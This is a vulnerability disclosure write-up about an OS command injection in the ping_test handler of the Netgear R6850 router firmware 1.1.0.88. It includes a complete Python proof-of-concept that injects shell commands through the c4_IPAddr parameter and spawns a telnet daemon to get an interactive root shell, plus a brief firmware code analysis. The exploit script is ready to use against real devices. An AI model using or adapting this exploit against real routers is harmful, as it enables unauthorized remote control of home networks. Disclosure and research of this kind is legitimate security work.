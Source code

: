 # Netgear-R6850 V1.1.0.88 Command Injection(ping_test)

![image-20240319114656029](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319114656029.png)

## Overview

```
* Type: Command Injection
* Supplier: Netgear (https://www.netgear.com/)
* Product: R6850 — AC2000 Smart WiFi Router
* Affect version: (lastest) 1.1.0.88
* Firmware download:https://www.downloads.netgear.com/files/GDC/R6850/R6850_V1.1.0.88.zip
```

## Vulnerability Description

When deal with  `ping_test` request,`c4_IPAddr` parameter is vulnerable to OS command injection.

### POC

The effect of executing the "ls" command

![image-20240319133131323](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319133131323.png)

```python
import requests
import re
import threading
import telnetlib
import time
import argparse

def cmd_exec(target, cmd, silent = False):
    r = requests.post(
        f'http://{target}/setup.cgi?id=0&sp=1337', {
        'todo' : 'ping_test',
        'c4_IPAddr' : f'127.0.0.1 && {cmd}',
        'next_file' : 'diagping.htm'
    })
    content = r.content.decode()
    ping_log = re.findall(
        r'<textarea name="ping_result" .+ readonly >(.+)</textarea>',
        content,
        re.DOTALL
    )
    _, cmd_content = ping_log[0]
    if not silent:
        print(cmd_content.strip())
def yyyy_telnetd(target):
    '''Spawn the telnet server.'''
    cmd_exec(target, '/bin/utelnetd', silent = True)

def main():
    parser = argparse.ArgumentParser('Longue vue')
    parser.add_argument('--shell', action = 'store_true', default = False)
    parser.add_argument('--cmd')
    parser.add_argument('--target', default = 'routerlogin.com')
    args = parser.parse_args()
    if not args.shell and not args.cmd:
        parser.print_help()
        return
    if args.cmd is not None:
        if '-' in args.cmd or ';' in args.cmd:
            print('Both "-" and ";" are disallowed by the command injection bug, use the shell instead.')
            return
        print(f'Executing {repr(args.cmd)} against {args.target}..')
        cmd_exec(args.target, args.cmd)
    if args.shell:
        print(f'Getting a shell against {args.target}..')
        telnetd = threading.Thread(target = yyyy_telnetd, args = (args.target, ))
        telnetd.start()
        print('Waiting a few seconds before connecting..')
        time.sleep(5)
        print('Dropping in the shell, exit with ctrl+c')
        try:
            with telnetlib.Telnet(args.target) as tn:
                tn.mt_interact()
        except:
            pass
        print('Cleaning up..')
        cmd_exec(args.target, '/bin/kill $(/bin/pidof utelnetd)', silent = True)
        print('Joining..')
        telnetd.join()
    print('Done'.center(60, '-'))
main()
```

## Analysis

In the main function of `setup. cgi`, all requests with `setup. cgi` in the URL will be processed by the setup_main function

![image-20240319134651718](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319134651718.png)

It should be noted that a filter (`FindForbidValue`) was applied at the beginning of the function, filtering out some characters and specific functions

![image-20240319134758233](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319134758233.png)

Then go to the `CallActionByName` function, where you will find the characters in the `ActionTab` field

![image-20240319134907840](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319134907840.png)

![image-20240319135037610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319135037610.png)

In `ActionTab`, you can see the action function corresponding to ping_test(sub_184B0). Here, the `c4-IPAddr`parameter is concatenated into the `myPipe` function using the `snprintf` function (which is actually a self encapsulated `popen`)

![image-20240319135340017](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319135340017.png)
